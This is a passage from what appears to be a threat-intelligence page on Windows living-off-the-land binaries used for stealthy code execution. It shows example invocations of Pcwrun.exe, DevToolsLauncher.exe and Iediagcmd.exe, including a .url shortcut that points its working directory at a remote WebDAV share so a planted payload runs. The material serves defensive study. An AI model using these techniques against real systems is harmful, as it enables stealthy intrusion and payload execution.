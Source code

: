 > **Description**: Part of the Performance Counters for Windows. 
> It can be exploited to run scripts or executables under certain conditions.
> 
> Example:
> 
> ```
> Pcwrun.exe /../../$(calc).exe
> ```
> 
> ### 5. DevToolsLauncher.exe
> 
> **Description**: Associated with Visual Studio development tools. 
> It can be abused to execute code or scripts in the context of development environments.
> 
> Example:
> 
> > Execute any binary with given arguments and it will call developertoolssvc.exe. 
> developertoolssvc is actually executing the binary.
> 
> ```
> devtoolslauncher.exe LaunchForDeploy [PATH_TO_BIN] "argument here" test
> ```
> 
> ### 6. Iediagcmd.exe
> 
> **Description**: Diagnostics Utility for Internet Explorer
> It can be used to execute binary pre-planted.
> 
> Example:
> 
> A .url file is sent to the victim or planted on disk.
> It sets the WorkingDirectory to \\attacker.webdav.server\share
> iediagcmd.exe tries to launch other tools like route.exe, 
> netsh.exe, or CustomShellHost.exe.
> 
> ```
> [InternetShortcut]
> URL=C:\\Program Files\\Internet Explorer\\iediagcmd.exe
> WorkingDirectory=\\\\192.168.8.200@80\\payload
> IconFile=C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe
> IconIndex=13
> ShowCommand=7
> ```



## 🖥️ Terrain 

 > Threat actors must have access to a Windows system with user-level privileges 
> where Windows utilities are available.
> 

---

[1]: https://lolbas-project.github.io/
[2]: https://www.whitecloudsecurity.com/news/2025/June/Stealth-Falcon-Living-off-the-Land-Attack-Zero-Day/